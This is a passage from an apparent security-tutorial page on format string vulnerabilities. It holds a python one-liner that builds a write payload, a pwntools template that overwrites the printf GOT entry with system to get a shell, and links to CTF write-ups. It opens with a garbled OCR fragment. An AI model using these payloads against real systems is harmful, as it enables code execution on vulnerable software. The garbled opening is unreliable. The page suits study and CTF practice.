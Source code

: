HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

You can find a **template** to prepare a exploit for this kind of vulnerability in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Or this basic example from [**here**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## Format Strings to BOF

It's possible to abuse the write actions of a format string vulnerability to **write in addresses of the stack** and exploit a **buffer overflow** type of vulnerability.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
  * 32 bit, no relro, no canary, nx, no pie, basic use of format strings to leak the flag from the stack (no need to alter the execution flow)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
  * 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
  * 32 bit, relro, no canary, nx, no pie, format string to write an address inside main in `.fini_array` (so the flow loops back 1 more time) and write the address to `system` in the GOT table pointing to `strlen`. When the flow goes back to main, `strlen` is executed with user input and pointing to `system`, it will execute the passed commands.
